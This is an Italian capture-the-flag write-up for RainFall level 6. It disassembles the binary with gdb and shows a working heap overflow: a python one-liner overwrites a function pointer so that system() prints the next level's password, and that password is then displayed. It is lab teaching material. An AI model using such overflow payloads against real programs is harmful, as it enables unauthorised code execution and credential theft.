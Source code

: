 # Level 6
Controlliamo le stringhe presenti nell'eseguibile:
```
level6@RainFall:~$ readelf -p '.rodata' level6

String dump of section '.rodata':
  [     8]  /bin/cat /home/user/level7/.pass
  [    29]  Nope
```
Eseguendo il programma scopriamo che questa volta l'input non viene presto dallo stdin
ma come primo argomento.
Disassembliamo con `gdb`:
```
level6@RainFall:~$ gdb -q level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disass m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
(gdb) disass n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```
### Funzione `main`
Riserva 0x20 (32) byte nello stack e chiama per due volte `malloc` nel seguente modo:
```
malloc(64);
malloc(4);
```
Successivamente assegna al secondo puntatore (quello di dimensione 4) restituito da `malloc`
l'offset della funzione `m`, poi chiama la funzione `strcpy` copiando l'input dell'utente
nel primo puntatore (quello da 64 byte) e in fine chiama il secondo puntatore che a sua
volta punta alla funzione `m`.

### Funzione `m`
Chiama `puts` nel seguente modo:
```
puts("Nope");
```

### Funzione `n`
Chiama `system` nel seguente modo:
```
system("/bin/cat /home/user/level7/.pass");
```
### Soluzione
Il nostro obiettivo è quello di sovrascrivere il secondo puntatore restituito da `malloc`
con l'offset della funzione `n` così da poter chiamare system.
Allora provo nel seguente modo a verificare la distanza dei puntatori:
```
level6@RainFall:~$ ltrace ./level6 usavoia
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                               = 0x0804a008
malloc(4)                                                                = 0x0804a050
strcpy(0x0804a008, "usavoia")                                            = 0x0804a008
puts("Nope"Nope
)                                                             = 5
+++ exited (status 5) +++
```
```
level6@RainFall:~$ echo $((0x0804a050 - 0x0804a008))
72
```
Basterà scrivere 72 caratteri e in fine l'indirizzo della funzione `n`: `0x08048454`
e passarlo come argomento dell'eseguibile:
```
level6@RainFall:~$ ./level6 $(python -c 'print "a"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$ su level7
Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```